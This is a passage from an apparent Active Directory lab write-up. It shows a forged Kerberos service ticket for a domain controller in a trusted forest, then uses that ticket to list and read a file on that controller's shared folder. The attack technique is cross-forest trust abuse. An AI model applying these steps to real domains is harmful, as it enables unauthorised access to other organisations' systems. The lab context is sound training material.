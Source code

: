 `klist`:
```
Current LogonId is 0:0x38c010

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: cifs📌/eurocorp-dc.eurocorp.LOCAL @ EUROCORP.LOCAL🏛️
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 2/17/2025 6:41:55 (local)
        End Time:   2/17/2025 16:39:56 (local)
        Renew Time: 2/24/2025 6:39:56 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Once the ticket is injected, we can access explicitly shared resources on `eurocorp-dc`.

- **Leverage the Forged Ticket to Gain Access to the Shared Resources of the Forest 2 DC**

**Note that the only way to enumerate accessible resources (service on a machine) in `eurocorp` would be to request a TGS for each one and then attempt to access it.**

`dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\`:
```
 Volume in drive \\eurocorp-dc.eurocorp.local\SharedwithDCorp has no label.
 Volume Serial Number is 1A5A-FDE2

 Directory of \\eurocorp-dc.eurocorp.local\SharedwithDCorp📁

11/16/2022  04:26 AM    <DIR>          .
11/15/2022  06:17 AM                29 secret.txt
               1 File(s)             29 bytes
               1 Dir(s)   7,438,217,216 bytes free
```

`type \\eurocorp-dc.eurocorp.local\SharedwithDCorp\secret.txt`:
```
Dollarcorp DAs can read this!📌
```
🚩

---
---
